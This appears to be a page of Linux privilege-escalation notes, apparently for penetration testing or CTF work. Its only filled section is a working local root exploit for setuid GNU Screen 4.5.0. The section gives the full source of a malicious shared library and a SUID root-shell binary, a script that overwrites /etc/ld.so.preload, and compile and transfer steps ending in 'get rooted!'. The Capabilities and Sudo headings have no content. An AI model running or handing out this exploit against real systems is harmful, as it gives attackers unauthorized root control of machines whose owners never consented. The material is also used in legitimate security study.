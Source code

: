 # Linux - CapSuidSudo

# Capabilities

# SUID

- [Screen-4.50](#screen-4.50)

### Screen-4.50

All of these file do it on your machine first then transfer the file to the targets.

Save the file in libhax.c. Then compile like the command below:
```
# Command to Compile
gcc -fPIC -shared -ldl -o libhax.so libhax.c

# Script To Save (libhax.c)

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Save the file in rootshell.c. Then compile like the command below:
```
# Command to Compile
gcc -o rootshell rootshell.c

# Script To Save (rootshell.c)

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Save the file in # screenroot.sh like below:
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

After that please transfer all of the files and chmod 777 all the transfer files on your target machine. Run like below and get rooted!
```
./screenroot.sh
./rootshell
```

Link => [ExploitDB-41154](https://www.exploit-db.com/exploits/41154)


# Sudo